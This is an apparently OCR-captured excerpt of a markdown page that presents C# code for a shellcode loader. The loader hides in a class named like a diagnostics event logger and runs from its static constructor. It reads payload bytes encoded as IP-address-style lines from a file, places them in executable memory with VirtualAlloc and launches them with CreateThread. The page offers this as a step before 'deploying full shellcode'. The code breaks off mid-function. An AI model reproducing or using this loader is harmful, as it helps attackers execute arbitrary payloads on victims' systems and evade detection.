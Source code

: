 ### 💡 Proof of Execution

Before deploying full shellcode, inject a simple MessageBox popup:

```
using System;
using System.Collections.Generic;
using System.IO;
using System.Linq;
using System.Text;
using System.Runtime.InteropServices;
using System.Windows.Forms;

namespace XXXXXX.Diagnostics.Audit
{
    public static partial class EventLogger
    {
        static EventLogger()
        {
            try
            {
                MessageBox.Show("Triggering shellcode from Shellcode.txt", "DEBUG");

                string basePath = "C:\\Users\\Users\\Desktop\\Payload\\";
                string filenamePath = Path.Combine(basePath, "Shellcode.txt");

                if (File.Exists(filenamePath))
                {
                    ExecuteShellcodeFromFile(filenamePath);
                }
                else
                {
                    MessageBox.Show("ips.txt not found!", "DEBUG");
                }
            }
            catch (Exception ex)
            {
                MessageBox.Show($"Error: {ex.Message}", "DEBUG");
            }
        }

        private static void ExecuteShellcodeFromFile(string filename)
        {
            try
            {
                string[] lines = File.ReadAllLines(filename);
                List<byte> shellcode = new List<byte>();

                foreach (var line in lines)
                {
                    string[] parts = line.Split('.');
                    if (parts.Length == 4)
                    {
                        shellcode.AddRange(parts.Select(byte.Parse));
                    }
                }

                IntPtr allocMem = VirtualAlloc(IntPtr.Zero, (UIntPtr)shellcode.Count, 0x3000, 0x40);
                Marshal.Copy(shellcode.ToArray(), 0, allocMem, shellcode.Count);

                IntPtr thread = CreateThread(IntPtr.Zero, 0, allocMem, IntPtr.Zero, 0, IntPtr.Zero);
            }
```